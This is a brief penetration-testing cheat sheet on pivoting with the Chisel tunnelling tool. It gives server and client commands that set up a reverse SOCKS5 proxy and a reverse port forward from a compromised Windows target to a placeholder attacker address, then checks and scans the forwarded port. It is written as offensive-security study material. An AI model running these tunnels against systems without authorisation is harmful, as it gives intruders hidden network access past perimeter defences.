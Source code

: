 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

### Setting up a SOCKS Proxy with Chisel

1. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)
   * Note, you will need one for your attacking system and one to be uploaded to the target system.
2. On the attacking system: `./chisel server --socks5 --reverse -p 8000`
3. On the target system: `.\chisel.exe client [ATTACKER_IP]:8000 R:socks`
4. Observe on the attacking system that the SOCKS5 connection has been successfully established.

### Forwarding One Port with Chise;

1. On the attacking system: `./chisel server 9000 -reverse`
2. On the target system: `.\chisel client [ATTACKER_IP]:9000 R:3306:127.0.0.1:3306`

### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command: `ss -lnpt | grep 3306`

### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running `nmap -sC -sV -p3306 -n localhost`

